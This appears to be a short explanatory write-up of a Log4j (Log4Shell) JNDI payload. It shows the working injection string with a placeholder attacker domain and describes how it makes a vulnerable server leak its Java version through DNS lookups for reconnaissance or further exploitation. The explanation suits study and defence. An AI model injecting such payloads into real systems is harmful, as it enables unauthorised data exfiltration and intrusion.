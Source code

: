 ## How the Payload Works

1. JNDI Lookup with LDAP:

- JNDI URI Structure: The payload ```${jndi:ldap:///${sys:java.version}.YourDomain.com/}``` is an example of a JNDI URI where ```ldap://``` specifies the protocol, and the rest is the address of the LDAP server.

- Dynamic Subdomain Injection: The ```${sys:java.version}``` part is a JNDI expression that dynamically injects the Java version of the server into the URI. For instance, if the server is running Java 11, the URI might become ```ldap://11.YourDomain.com/```.

2. DNS Interaction:

- Subdomain Request: In this example, ```YourDomain.com``` is a domain controlled by the attacker. The URI causes the server to make an LDAP request to a subdomain that includes the Java version, e.g., ```11.YourDomain.com```.

- DNS Lookup: When the server tries to perform the LDAP lookup, it first resolves the domain name part of the URI. This involves a DNS lookup for ```11.YourDomain.com```.

- DNS Query: The DNS query sends a request from the vulnerable server to the attacker's DNS server. The DNS server responds with information about the domain.

3. Why DNS?

- Data Exfiltration: Using DNS for the payload allows attackers to extract data from the vulnerable server. Since DNS queries are generally less scrutinized and harder to block, they offer a stealthy way to exfiltrate information.

- No Direct LDAP Communication: Instead of making a direct LDAP request that could be more obvious, the payload uses DNS to carry out the attack. The DNS request carries the Java version or other data, which the attacker’s DNS server logs. This makes it easier for the attacker to gather information without triggering obvious alerts.

4. Practical Example:

- Suppose an attacker’s domain is example.com. The payload ```${jndi:ldap:///${sys:java.version}.example.com/}``` could result in a DNS query for ```11.example.com``` if the server is running Java 11.

- The attacker’s DNS server receives this request and logs it, giving them insight into the Java version or other data injected into the subdomain. This data could be used for further exploitation or reconnaissance.

Overall, The payload ```${jndi:ldap:///${sys:java.version}.YourDomain.com/}``` exploits the Log4j vulnerability by making the vulnerable server perform a DNS lookup. The DNS query includes dynamically inserted data (like the Java version), which is then logged by the attacker’s DNS server. This method allows attackers to exfiltrate data or gather information in a way that is less likely to be detected.
